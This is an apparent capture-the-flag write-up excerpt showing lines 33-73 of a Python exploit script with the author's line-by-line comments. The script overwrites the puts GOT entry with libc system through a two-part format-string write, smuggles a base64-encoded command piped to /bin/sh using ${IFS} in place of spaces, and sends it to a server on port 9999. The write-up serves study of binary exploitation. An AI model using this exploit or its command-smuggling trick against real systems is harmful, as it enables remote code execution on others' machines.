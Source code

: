      33 system_offsets = {'10.10.10.148': int('3cd10', 16),
     34                   '127.0.0.1':    int('3ec00', 16)}
     35 
     36 try:
     37     system_offset = system_offsets[target_ip]
     38 except KeyError:
     39     print(f"[-] Invalid target: {target_ip}")
     40     sys.exit(1)
     41 
     42 main_base, libc_base = get_memory_base_addresses(ip=target_ip)
     43 print(f"[+] Main base address:   0x{main_base:08x}")
     44 print(f"[+] libc base address:   0x{libc_base:08x}")
     45 
     46 puts_got = main_base + 0x5048
     47 print(f"[+] GOT table for puts:  0x{puts_got:08x}")
     48 
     49 system = libc_base + system_offset
     50 print(f"[+] system address:      0x{system:08x}")
     51 system_lower = system % pow(2,16)
     52 system_upper = system // pow(2,16)
     53 print(f'[+] system lower:            0x{system_lower:04x}')
     54 print(f'[+] system upper:        0x{system_upper:04x}')
     55 
     56 exploit = b""
     57 exploit += struct.pack("I", puts_got)
     58 exploit += struct.pack("I", puts_got+2)
     59 exploit += f'%53${system_lower - 8}x'.encode()
     60 exploit += b'%53$n'
     61 exploit += f'%54${system_upper - system_lower + pow(2,16)}x'.encode()
     62 exploit += b'%54$n'
     63 
     64 command = f'echo {base64.b64encode(cmd.encode()).decode()} | base64 -d | /bin/sh'.replace(' ', '${IFS}')
     65 
     66 print(f"[*] Command: {cmd}")
     67 print(f"[*] Encoded command: {command}")
     68 print("[*] Sending exploit")
     69 
     70 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     71 s.connect((target_ip, 9999))
     72 s.send(f'{command} /{urllib.parse.quote(pad(exploit))}\r\n\r\n'.encode())
     73 s.close()
    

Comments:

  * I’ll use a `pad` function to make sure my input stays the same length each time. Not doing this can make the stack change as I try different payloads. [Lines 11-12]
  * `get_memory_base_addresses` will use the webserver to leak the `maps` file to leak the addresses I need. [15-19]
  * There’s a lot of code to just calculate different addresses and numbers I’ll need. [29-54]
  * I send the overwrite in two parts. I could do this in one, but it would take a long time because I’d have to write a string that was in the billions of characters long. Instead, I’ll overwrite the first two bytes using a few thousand characters, and then the top two bytes. This will stomp on the low two bytes of the next word, but that’s ok. [56-62]
  * One other note, the number I want to write the second time is `system_upper - system_lower`. But I want this to be a positive number always, so I’ll add 2^16 to it. If lower is bigger, this gets it back to positive. If upper is bigger, this adds an extra 1 into the two bytes I’m stomping from a different word, which is fine. [61]
  * I’ll create a single command that echos some base64 into `base64 -d` and then into `sh`. Then my input can be the base64 data. [64]
  * Connect to the server and send the request. [70-73]
